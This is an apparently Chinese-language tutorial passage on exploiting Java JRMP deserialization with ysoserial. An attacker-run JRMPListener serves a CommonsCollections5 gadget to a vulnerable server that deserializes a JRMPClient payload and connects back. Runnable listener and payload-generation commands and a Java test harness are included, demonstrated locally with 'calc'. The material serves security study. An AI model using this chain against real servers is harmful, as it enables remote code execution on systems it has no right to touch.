 # 前言

JRMP是java的一种协议，RMI的通信过程就是通过JRMP协议进行的，JRMP是通过TCP继进行传输的，最近在一些地方看到了关于JRMP的反序列化，包括在RMI反序列化中的利用，对JEP290的绕过，所以打算来跟一跟这个链子

wiki的描述

Java远程方法协议（英语：Java Remote Method Protocol，JRMP）是特定于Java技术的、用于查找和引用远程对象的协议。这是运行在Java远程方法调用（RMI）之下、TCP/IP之上的线路层协议（英语：Wire protocol）。

这并不是一条直接命令执行的链子，而是一条通过打开JRMP监听到达和RMI交互的目的，与RMI的反序列化有一定程度的相似之处，但是这绕过JEP290有一定的用处

# 利用JRMP服务端打客户端

这种方式是将ysoserial中的`exploit/JRMPListener`作为服务端，也就是攻击方进行监听，然后通过发送`payloads/JRMPClient`向我们的`exploit/JRMPListener`进行连接，连接后会返回`exploit/JRMPListener`的gadget对象，然后进行反序列化

攻击流程如下：

- 攻击方在自己的服务器使用`exploit/JRMPListener`开启一个rmi监听
- 往存在漏洞的服务器发送`payloads/JRMPClient`，payload中已经设置了攻击者服务器ip及JRMPListener监听的端口（即启动JRMP服务端的IP和对应端口），漏洞服务器反序列化该payload后，会去连接攻击者开启的rmi监听，在通信过程中，攻击者服务器会发送一个可执行命令的payload（假如存在漏洞的服务器中有使用`org.apacje.commons.collections`包，则可以发送`CommonsCollections`系列的payload），从而达到命令执行的结果。

启动监听

```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections5 "calc"
```

生成Client序列化数据

```
java -jar ysoserial.jar JRMPClient "127.0.0.1:1099" > test.bin
```

测试代码（反序列化payload并连接攻击者开启的RMI监听）

```
package ysoserial.JRMP;

import java.io.FileInputStream;
import java.io.ObjectInputStream;

public class test {
    public static void main(String[] args) throws Exception {
        ObjectInputStream fos = new ObjectInputStream(new FileInputStream("D:\\工具\\ysoserial-master\\src\\main\\java\\ysoserial\\JRMP\\test.bin"));
        Object o = fos.readObject();
        System.out.println(o);
    }
}
```

![image-20220415133317491](images/1.png)
